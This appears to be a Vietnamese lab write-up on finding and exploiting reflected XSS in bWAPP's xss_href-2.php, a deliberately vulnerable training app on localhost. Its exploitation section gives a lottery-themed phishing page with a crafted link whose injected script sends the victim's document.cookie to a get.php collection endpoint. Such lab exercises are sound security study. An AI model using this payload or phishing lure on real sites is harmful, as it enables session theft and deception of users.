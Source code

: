 ### Kiểm tra XSS
Nhập tên vào box và xem kết quả trả về

![image](https://github.com/user-attachments/assets/95e333f3-7e97-47fe-8c96-0b2d4262c1f2)

Kết quả trả về là một bảng dù ta nhập bất kì thông tin nào

Thử nhập ```<script>alert("Thiep")</script>``` Kết quả trả về là không tìm thấy tên này

--> Có thể không có cơ chế lọc đầu vào.

![image](https://github.com/user-attachments/assets/df303141-b7a3-47d8-9e6b-7850731b972e)

View source, để ý đến chỗ có phần mình vừa nhập vào

![image](https://github.com/user-attachments/assets/25956aed-4fe2-472c-bdd0-955ab3c3b4b4)

Đoạn js đã được truyền vào nhưng nó không được thực thi là do nó đang nằm trong thẻ <a></a>. Chỉ cần đóng lại và tiêm XSS vào. ( thêm ```>``` hoặc ```</a>``` vào trước đoạn js)

![image](https://github.com/user-attachments/assets/57a19914-9b8b-4616-8bb8-8a954d98a9df)

### Khai thác
File Phishing:

```html
<html>
    <head>
        <title>Lottery</title>
    </head>
    <body>
	    <h1 align="center">CONGRATULATIONS!!!</h1>
	    <h1 align="center">YOU WON!!!</h1>
	    Click this <a href="http://localhost/bwapp/xss_href-2.php?name=><script>window.open(%22http%3A%2F%2Flocalhost%2Fget.php%3Fcookie%3D%22%2Bdocument.cookie%29%3C%2Fscript%3E&action=vote">link</a> to see your prize
    </body>
</html>
```
